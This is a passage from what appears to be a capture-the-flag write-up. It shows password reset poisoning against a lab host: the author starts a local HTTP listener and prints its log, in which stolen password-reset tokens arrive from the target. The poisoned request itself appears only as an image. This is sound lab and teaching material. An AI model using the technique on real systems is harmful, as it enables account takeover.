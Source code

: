![robert.png](robert.png)   

So this user is valid and a `Password reset link has been sent to user inbox`, can we steal that?  
Trying to do some password reset poisoning as described in this [portswigger post](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning).      

![req.png](req.png)   

And if we're listening locally we can catch that token
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.188 - - [28/Jan/2023 23:33:34] code 404, message File not found
10.10.11.188 - - [28/Jan/2023 23:33:34] "GET /reset?token=vh57l92o3dRhzzoMfw8qaXSK62JTzfc595xA96sb4k7N%2BoTwaoIui76o93mHnvx6lXXmybMxZBLltlxp3SSyCA%3D%3D HTTP/1.1" 404 -
10.10.11.188 - - [28/Jan/2023 23:33:34] code 404, message File not found
10.10.11.188 - - [28/Jan/2023 23:33:34] "GET /reset?token=DJ0eyqWHi%2FuAdX0EaRDquVwbmTuDE675rh1BkyoB00TFldCO%2BGfJa8m4kvVVdF62whm9tLaVrYX99a1CiGmCeA%3D%3D HTTP/1.1" 404 -
10.10.11.188 - - [28/Jan/2023 23:33:34] code 404, message File not found
10.10.11.188 - - [28/Jan/2023 23:33:34] "GET /reset?token=A8TniCi1v3vIg0cfzWe8tyO85JVHbtAhvCSwu0veBSGFXH95AcrivMcH34vA6%2BPw1SyBycGoNL0zgMnJjp4ihA%3D%3D HTTP/1.1" 404 -
```

